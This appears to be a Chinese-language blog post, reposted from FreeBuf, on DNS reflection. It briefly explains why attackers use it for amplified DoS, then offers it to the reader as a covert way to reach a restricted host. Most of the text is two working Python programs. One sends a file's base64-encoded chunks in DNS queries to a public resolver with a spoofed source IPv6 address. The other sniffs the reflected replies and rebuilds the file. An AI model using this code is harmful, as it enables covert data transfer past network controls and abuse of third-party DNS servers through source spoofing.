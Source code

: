 # DNS专栏

https://www.freebuf.com/column/211543.html

><h3>域名系统（Domain Name System）几乎和互联网一样古老。它的特殊结构也使它早就成为黑客的利用对象。在这篇短文中，我将详细描述DNS反射的原理，为什么黑客喜欢使用它，以及你为什么要用它。

## 为啥黑客会乐此不疲的去使用dns服务器进行反射攻击

>主要原因是DNS回复流量远远大于对应的请求流量，这样就可以放大黑客的DoS流量，增强攻击的破坏力；而另一个原因则是DNS请求使用的是非面向连接的UDP协议。因此，现在有不少管理员都在防火墙上配置阻断DNS流量

![](img/1.png)


`为什么你也需要使用DNS反射？`假设你想与上图中的服务器通信，`能相互交流`（例如一个远程shell）。有一个很容易而且很常见的方法就是`创建自己的DNS服务器`，然后通过虚假的DNS查询进行通信。`这的确是一个很好的方法`，但我想向你展示一种无需设置任何额外的服务器而进行通信的方法，`只需要利用IPv6即可，它的直连特性（不存在NAT）极大帮助了我们。`

列示代码：

>以下两端Python示例代码可把一个文件发送到另一个台电脑中，且无需两台机器能够互相通信。主要通过把文件拆分成60字节的数据块（单个域名的最大长度域），再辅以DNS反射技术实现的。(两个都是Linux平台)

发送端代码：

```python
#!/usr/bin/python3
from kamene.all import *
import base64,time,sys    

dnsaddr = "2620:119:35::35"    # OpenDNS as an example
send_delay = 0.8
def send_packet(ip,packet_data):
    encoded_message = base64.b64encode(packet_data.encode('ascii'))+b'-'
    encoded_message_size = len(encoded_message)
    for i in range(0,encoded_message_size,60):
        data = encoded_message[i:i+60]
        DNSpacket = IPv6(dst=dnsaddr,src=ip)/UDP(sport=RandShort())/DNS(id=1337,rd=0,z=0,tc=1,qd=DNSQR(qname=data,qtype="A",qclass="IN"))
        send(DNSpacket,verbose=0)
        time.sleep(send_delay)
if len(sys.argv)<3:
    print(f'{sys.argv[0]}receiver_ipv6_addr data_file')
    sys.exit()
send_packet(sys.argv[1],open(sys.argv[2]).read())
```
> 接收方代码：

```python
#!/usr/bin/python3
import logging    
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
from kamene.all import *
import base64,sys    
def receive_packet(listen_iface):
    data = bytearray()
    while not b'-' in data    :
        DNSPacket = sniff(iface=listen_iface,filter="src port 53",count=1)
        if(DNSPacket[0].haslayer(DNS))and(DNSPacket[0].getlayer(DNS).id==1337):
            data += (DNSPacket[0].getlayer(DNS).qd.qname[:-1])
    print(base64.b64decode(data[:-1]).decode('ascii'),end='')
if len(sys.argv)<2:
    print(f'{sys.argv[0]}listen_interface')
    sys.exit()
receive_packet(sys.argv[1])
```






















